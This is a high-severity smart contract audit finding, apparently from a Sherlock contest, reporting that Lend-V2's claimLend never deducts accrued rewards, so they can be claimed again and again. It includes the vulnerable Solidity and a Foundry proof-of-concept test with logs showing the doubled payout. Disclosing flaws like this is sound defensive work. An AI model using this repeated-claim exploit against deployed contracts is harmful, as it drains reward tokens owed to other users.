 Boxy Ebony Rattlesnake

High

# Users Can Claim Lend Token Continuously


### Summary
When claiming Lend, there is no mechanism in place to record or deduct the `claimAmount`. As a result, users with accrued Lend can claim an unlimited number of Lend tokens as long as there are Lend Tokens in the contract.

### Root Cause
In above snippet, when claiming Lend, there is no part where the claimAmount is recorded or deducted.
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L402
```solidity
    function claimLend(address[] memory holders, LToken[] memory lTokens, bool borrowers, bool suppliers) external {
        ...
        for (uint256 j = 0; j < holders.length;) {
            uint256 accrued = lendStorage.lendAccrued(holders[j]);
            if (accrued > 0) {
                grantLendInternal(holders[j], accrued);
            }
            unchecked {
                ++j;
            }
        }
    }
```
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L416
```solidity
    function grantLendInternal(address user, uint256 amount) internal returns (uint256) {
        address lendAddress = LendtrollerInterfaceV2(lendtroller).getLendAddress();
        uint256 lendBalance = IERC20(lendAddress).balanceOf(address(this));

        if (amount > 0 && amount <= lendBalance) {
            IERC20(lendAddress).safeTransfer(user, amount);
            return 0;
        }
        return amount;
    }
```

### Internal pre-conditions
N/A

### External pre-conditions
N/A

### Attack Path
N/A

### PoC
https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/test/mocks/TestLendAccrual.t.sol
```solidity
    function test_lend_accrues() public {
        // Supply tokens to start accruing LEND
        uint256 supplyAmount = 1000e18;
        (, address lToken) = _supply(supplyAmount, user1);
        _supply(supplyAmount, user2);

        // Get initial LEND accrued
        uint256 initialLendAccrued = lendStorage.lendAccrued(user1);

        // Advance time and blocks
        vm.warp(block.timestamp + 1 days);
        vm.roll(block.number + 1000);

        // Trigger LEND distribution
        vm.prank(user1);
        address[] memory holders = new address[](1);
        holders[0] = user1;
        LToken[] memory lTokenArray = new LToken[](1);
        lTokenArray[0] = LToken(lToken);
        address lendToken = lendtroller.getLendAddress();

        coreRouter.claimLend(holders, lTokenArray, false, true);
        console2.log("First  Step      : %e",IERC20(lendToken).balanceOf(user1));

        coreRouter.claimLend(holders, lTokenArray, false, true);
        console2.log("Second Step      : %e",IERC20(lendToken).balanceOf(user1));
        
        // Get final LEND accrued
        uint256 finalLendAccrued = lendStorage.lendAccrued(user1);
        console2.log("finalLendAccrued : %e",finalLendAccrued);
    }
```
forge test --match-test "test_lend_accrue" -vv

Result:
```bash
Ran 1 test for test/mocks/TestLendAccrual.t.sol:TestLendAccrual
[PASS] test_lend_accrues() (gas: 832077)
Logs:
  First  Step      : 5e16
  Second Step      : 1e17
  finalLendAccrued : 5e16
```
### Impact
Malicious users can claim another user's Lend, which poses a danger to the governance role and results in the loss of other users' Lend rewards.

### Mitigation
Consider implementing a deduction of `lendAccrued` after each claim to prevent infinite claims.